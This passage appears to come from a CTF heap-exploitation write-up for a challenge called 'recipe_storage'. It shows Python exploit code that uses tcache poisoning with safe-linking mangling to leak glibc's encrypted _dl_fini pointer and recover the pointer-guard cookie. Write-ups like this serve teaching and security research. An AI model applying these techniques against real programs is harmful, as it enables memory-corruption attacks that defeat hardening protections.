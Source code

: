 ```
_dl_fini = linker + 0x5380
print("_dl_fini:",hex(_dl_fini))

# Now we need to leak the encrypted _dl_fini from the initial struct
# and then we can calculate
# the 'linker cookie' which is used to encrypt linker function ptrs
# in order to make it harder for an attacker to make this kind of attack
# by directly overwriting function ptrs

# Allocate some extra chunks we can use
malloc(10, 0x60, b"A")
malloc(11, 0x60, b"B")
malloc(12, 0x60, b"C")

free(10)
free(7) # same as before

initial = libc + 0x204fc0 # contains encryped _dl_fini (which is a linker function)
print("initial (contains enc dl_fini):",hex(initial))
home = heap + 0x7f0 # same as before
target = initial
addr = mangle(home, target)

# Use the 0x5c0 chunk again
free(6)

p = b"N"*0x410
p += p64(0)
p += p64(0x71)
p += p64(addr)
malloc(6, 0x5b0, p)

# write 24 A's to cover the gap down to enc _dl_fini
p = b"A"*24

malloc(7, 0x60, b"B")
malloc(14, 0x60, p)

# leak the encrypted _dl_fini
leak = puts(14)
leak = leak[24:24+8]
leak = u64(leak.ljust(8,b"\x00"))
enc_dl_fini = leak

# print the values and calculate the linker cookie value
print("enc_dl_fini:", hex(enc_dl_fini))
l_cookie = get_cookie(enc_dl_fini, _dl_fini)
print("l_cookie:",hex(l_cookie))

```
The initial struct looks like:<br>
<img src="/assets/images/linux/heap/writeups/recipe_storage/recipe_gdb_19.png" style="width:100%; height:100%;" />